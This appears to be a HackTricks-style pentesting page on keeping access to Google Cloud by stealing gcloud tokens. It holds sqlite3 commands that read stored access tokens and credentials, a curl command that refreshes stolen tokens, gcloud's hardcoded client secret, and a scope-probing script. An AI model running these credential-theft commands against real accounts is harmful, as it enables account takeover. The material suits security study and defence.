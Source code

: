 # GCP - Token Persistence

{{#include ../../../banners/hacktricks-training.md}}

### Authenticated User Tokens

To get the **current token** of a user you can run:

```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```

Check in this page how to **directly use this token using gcloud**:

{{#ref}}
https://book.hacktricks.wiki/en/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf.html#gcp
{{#endref}}

To get the details to **generate a new access token** run:

```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```

It's also possible to find refresh tokens in **`$HOME/.config/gcloud/application_default_credentials.json`** and in **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

To get a new refreshed access token with the **refresh token**, client ID, and client secret run:

```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```

The refresh tokens validity can be managed in **Admin** > **Security** > **Google Cloud session control**, and by default it's set to 16h although it can be set to never expire:

<figure><img src="../../../images/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

The authentication flow when using something like `gcloud auth login` will open a prompt in the browser and after accepting all the scopes the browser will send a request such as this one to the http port open by the tool:

```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```

Then, gcloud will use the state and code with a some hardcoded `client_id` (`32555940559.apps.googleusercontent.com`) and **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) to get the **final refresh token data**.

> [!CAUTION]
> Note that the communication with localhost is in HTTP, so it it's possible to intercept the data to get a refresh token, however this data is valid just 1 time, so this would be useless, it's easier to just read the refresh token from the file.

### OAuth Scopes

You can find all Google scopes in [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) or get them executing:

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```

It's possible to see which scopes the application that **`gcloud`** uses to authenticate can support with this script:

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
    echo -ne "Testing $scope         \r"
    if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
        echo ""
        echo $scope
    fi
done
```

After executing it it was checked that this app supports these scopes:

```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```

it's interesting to see how this app supports the **`drive`** scope, which could allow a user to escalate from GCP to Workspace if an attacker manages to force the user to generate a token with this scope.

**Check how to** [**abuse this here**](../gcp-to-workspace-pivoting/index.html#abusing-gcloud)**.**

### Service Accounts

Just like with authenticated users, if you manage to **compromise the private key file** of a service account you will be able to **access it usually as long as you want**.\
However, if you steal the **OAuth token** of a service account this can be even more interesting, because, even if by default these tokens are useful just for an hour, if the **victim deletes the private api key, the OAuh token will still be valid until it expires**.

### Metadata

Obviously, as long as you are inside a machine running in the GCP environment you will be able to **access the service account attached to that machine contacting the metadata endpoint** (note that the Oauth tokens you can access in this endpoint are usually restricted by scopes).

### Remediations

Some remediations for these techniques are explained in [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

### References

- [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
- [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{{#include ../../../banners/hacktricks-training.md}}

